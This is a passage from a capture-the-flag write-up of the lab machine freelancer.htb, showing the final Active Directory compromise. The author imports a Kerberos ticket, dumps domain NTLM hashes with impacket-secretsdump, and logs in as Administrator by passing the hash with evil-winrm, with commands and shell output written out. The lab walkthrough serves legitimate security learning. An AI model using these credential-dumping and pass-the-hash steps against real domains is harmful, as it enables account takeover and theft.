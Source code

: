 i will now import the ticket and use secretsdump to get the hash of admin account.

To import the ticket, I will simply do `export KRB5CCNAME=Administrator.ccache` and run the following command:

```
faketime -f +5h impacket-secretsdump 'freelancer.htb/Administrator@DC.freelancer.htb' -k -no-pass -dc-ip 10.10.11.5 -target-ip 10.10.11.5 -just-dc-ntlm
```

We will recieve Hash for user accounts in this DC along with Administrator’s. Now, i will simply use the hash of Administrator and pass the hash with evil-winrm to get access to root account.

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i freelancer.htb -u administrator -H 0039318f1e8274633445bce32ad1a290
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
freelancer\administrator
```

As you can see, we got to administrator as well and got root flag too.

## Conclusion

Thanks for following my walk-through on this fun AD box.
